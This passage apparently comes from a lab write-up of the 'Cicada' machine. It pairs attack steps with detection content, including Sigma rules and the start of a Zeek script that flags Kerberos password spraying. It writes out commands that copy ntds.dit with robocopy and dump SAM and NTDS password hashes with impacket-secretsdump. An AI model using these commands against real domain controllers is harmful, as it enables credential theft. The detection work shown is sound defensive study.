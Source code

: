 The built-in `robocopy` utility is then used to copy `ntds.dit`.
```
robocopy /b z:\windows\ntds . ntds.dit
```

With both versions of privilege escalation, `SAM` and `ntds.dit`, the `SYSTEM` file is needed to decrypt hashes. Impacket's `secretsdump.py` was used to dump hashes locally after copying respective files (using the Kali installed version here that prepend "impacket"):
```
impacket-secretsdump -sam sam -system system LOCAL

impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

> __Detect:__ As a separate detection example for `diskshadow` this [Sigma rule](https://github.com/SigmaHQ/sigma/blob/master/rules-threat-hunting/windows/process_creation/proc_creation_win_diskshadow_script_mode.yml) simply looks at process execution with the `s` parameter, to accept scripts. The other Sigma rule will also check for similar common usage of saving the SYSTEM hive with `reg`. 
{: .prompt-tip}
Again, using Uncoder to translate Sigma's general syntax to a usable Splunk variant:
![image](https://i.postimg.cc/hGkw3jXX/cicada-uncoder.png){: width='1626' height='362'}

### Zeek Script
The idea for the script was to:
1. Look for Kerberos Pre-Authentication failed events
2. Check if a subsequent failed event occurs within a time threshold
3. Look for these events to be sourced from and destined to the same IP addresses
4. Verify authentication attempts are to different accounts

The time threshold between events `ts_delta` and `log_threshold` values were set to easily trigger a detection for this box. Only 5 events to trigger a log may be rather low but needed in this case with Cicada's domain only having 8 accounts. I also used an arbitrary factor of 5 to multiply the `log_threshold` each time as a way to minimze log fatigue. I tested the script on another lab machine with hundreds of accounts and it worked as expected but I'd expect it would need to be adjusted for production environments with many more accounts. I'm not sure how performant the script's `client` set would handle continual checks of unique accounts against thousands accounts for example.

```bash
module krb_pass_spray;

# Declare initial global variables
export
{
    redef enum Log::ID += { krb_pass_spray::LOG };

    global counter: count = 0;
    global log_threshold: count = 5;
    global init_time: time;
    global init_orig_h: addr;
    global init_resp_h: addr;
    global clients: set[string];

    type Info: record
    {
        ts: time &log;
        attacker: addr &log;
        victim: addr &log;
        unique_accounts: count &log;
    };
}

event zeek_init()
    {
        Log::create_stream(LOG, [$columns=Info, $path="krb_pass_spray"]);
    }
```